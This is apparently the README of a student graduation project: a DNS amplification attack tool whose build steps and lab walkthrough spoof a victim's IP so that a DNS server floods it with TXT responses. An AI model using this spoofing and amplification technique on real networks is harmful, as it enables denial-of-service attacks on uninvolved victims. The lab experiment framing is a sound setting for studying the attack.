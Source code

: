 ########################
DNS Amplification Attack
########################

About The Project
=================

This repository is a simple experiment of DNS-Amplification-Attack_.

How it started
  This is my graduation project

How it's going
  This project now is not as good as I expected, especially the dns server, which now can only send 512-byte useless response packet. I'd like to make it a valid dns response.

Getting Started
===============

To quickly get started, you should set up a local network, at least one **attacker**, one **dns server** and a **victim**. Of course they can be in the same host.

After that, let's begin building the executable files:

.. code-block:: bash

   root@build:~# git clone XXX
   root@build:~# cd XXX
   root@build:~/XXX# ./configure && make

And you will have **dns_attacker** and **dns_server** in the *src* directory. They do what as their names show.

Let's pretend the IP configure as below::

  Network Gateway: 192.168.1.1
  DNS Server: 192.168.1.1
  Attacker: 192.168.1.2
  Victim: 192.168.1.3

Now, we can put our hands to attack. First we start our DNS server:

.. code-block:: bash

   root@dns-server:~# ./dns_server
   DNS server bind address: 0.0.0.0    
   DNS server bind port:53

As you can see, we bind the dns_server to 0.0.0.0:53 for external access, which need privilege.

Then we start our attacker:

.. code-block:: bash

   root@attacker:~# ./dns_attacker
   Target ip address: 192.168.1.3
   DNS server ip address: 192.168.1.1
   DNS server port: 53
   Query domain name(Ctrl+D to end): www.baidu.com
   Query type(A = 1, NS = 2, CNAME = 5, MX = 15, TXT = 16 , AAAA = 28): 16
   Query domain name(Ctrl+D to end):<Ctrl+D>

We asked the dns server(192.168.1.1:53) for *www.baidu.com*'s TXT record and spoof the query packet's source ip to **Target ip address** (192.168.1.3). After we enter <Ctrl+D>, the target victim was under attack. You can monitor network flow(UDP) on the dns server, attacker and victim.

Screenshots
===========

Linux attack:
  .. image:: https://www.helloimg.com/images/2021/03/19/BQLjpK.png

Windows victim:
  .. image:: https://www.helloimg.com/images/2021/03/19/BQAXHv.png

License
=======

Distributed under the MIT License. See `LICENSE`_ for more information.

Contact
=======

GoldenMean_ - GoldenMean58@outlook.com

Acknowledgments
===============

`Cloudflare article`_

`User Datagram Protocol(UDP) WIKIPEDIA article`_

`IPv4 WIKIPEDIA article`_

`Domain Name System WIKIPEDIA article`_

.. _DNS-Amplification-Attack: https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/
.. _LICENCE: https://github.com/GoldenMean58/dns_amplification_attack/blob/master/LICENSE
.. _GoldenMean: https://github.com/GoldenMean58
.. _Cloudflare article: https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/
.. _User Datagram Protocol(UDP) WIKIPEDIA article: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4 WIKIPEDIA article: https://en.wikipedia.org/wiki/IPv4#Packet_structure
.. _Domain Name System WIKIPEDIA article: https://en.wikipedia.org/wiki/Domain_Name_System
